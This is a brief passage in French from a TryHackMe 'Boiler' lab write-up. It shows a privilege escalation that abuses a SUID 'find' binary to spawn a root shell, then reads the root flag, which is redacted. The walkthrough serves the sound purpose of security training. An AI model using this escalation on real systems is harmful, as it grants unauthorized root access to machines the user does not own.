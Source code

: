 ![find_SUID.png](https://github.com/RawMain121/writeups/blob/main/tryHackMe/room/Boiler/_resources/find_SUID.png)

On va utiliser cette méthode :

```bash
stoner@Vulnerable:~$ /usr/bin/find . -exec /bin/sh -p \; -quit
# whoami
root
```

Bien joué, nous voilà **root** de la machine ! 

```bash
# cat /root/root.txt
<Flag>
```
